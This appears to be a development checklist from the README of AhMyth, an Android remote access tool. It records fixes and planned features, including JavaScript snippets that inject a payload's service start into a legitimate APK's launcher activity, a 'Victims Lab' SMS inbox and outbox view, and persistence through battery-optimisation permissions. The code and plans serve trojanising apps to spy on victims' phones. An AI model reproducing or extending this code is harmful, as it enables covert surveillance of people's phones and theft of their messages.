 ## <div align="center"><ins>Stability Updates</ins></div>

- [x] 01: Figure out why AhMyth is so unstable on Windows machines!

- Done! Was due to outdated coding in the `main.js` file, as well as a bug in the Modification of a legit APK file's Launcher Activity when utilising the `On Launch` binding method, the framework directory for Apktool was also causing problems as well, so this has been fixed using a child process before building each APK Payload.
#
- [ ] 02: Merge Client & Server upgrades from [@HiddenPirates](https://github.com/HiddenPirates) and then integrate the Java code responisble for allowing the new hook function to work
#
- [ ] 03: Replace the exported `orgAppKey` variable in the `Constants.js` file, with the new hook point variable...
```js
exports.hookPoint = 'return-void';
```
...then replace the exported `serviceSrc` variable in the `Constants.js` file, with the new static hook metbod...
```js
exports.serviceSrc = 'invoke-static {}, L';
```
...then replace the exported `serviceStart` variable in the `Constants.js` file....
```js
exports.serviceStart = ';->start()V' +
'\n\n' +
'return-void';
```
....then replace the the old `onCreate` hook point code, with the new code for the new static hook function.
```js
var regex = /\/(\S+)\./;
var str = launcherPath;
var m = str.match(regex);

var startService = serviceSrc + m[1] + serviceStart;

var key = CONSTANTS.hookPoint;
$appCtrl.Log("Modifiying Launcher Activity...");
$appCtrl.Log();

var output = data.substring(0, data.indexOf(key) + key.length) + startService + data.substring(data.indexOf(key) + key.length);
fs.writeFile(path.join(apkFolder, launcherPath), output, 'utf8', (error) => {
    if (error) {
        $appCtrl.Log('Modifying Launcher Activity Failed!', CONSTANTS.logStatus.FAIL);
        $appCtrl.Log();
        return;
    }
```
#
- [x] 04: Figure out how to allow AhMyth to search `smali_classes` directories, 
if the launcher activity is not present anywhere in the `smali` directory.

- Done For Windows, Linux & macOS! A new cross platform `Bind On Launch` function has been implemented which fixes major bugs & previous limitations for Windows, macOS & Linux.
#
- [ ] 05. Stabilise the SMS feature by adding the ability to view sent SMS's in an `Outbox SMS` sub-tab next to a separate `Inbox SMS` sub-tab when using the Victims Lab's SMS feature, a small example of this can be seen below.
```
|--| SMS |
|----| Send an SMS |
|------| Inbox || Outbox |
```
#
- [ ] 06: Fix the binaries for 1.0-Beta.4 Release!
#
- [ ] 07: Implement the `REQUEST_IGNORE_BATTERY_OPTIMISATION` manifest permission in such a way where it wont be replaced when using the `Custom Permissions` feature.
#
- [ ] 08: Update the autoinstall script to install AhMyth based on the current supported OS's if they're detected after running the script, the script should also check to see if the required dependencies are installed, and install them if they're aren't.
#
- [ ] 09: Move the JavaScript code for the `Custom Permissions` feature to a seperate file in such a way that its able to be properly exported and used by the `AppCtrl.js` file when any of this feature's checkboxes return true/checked.

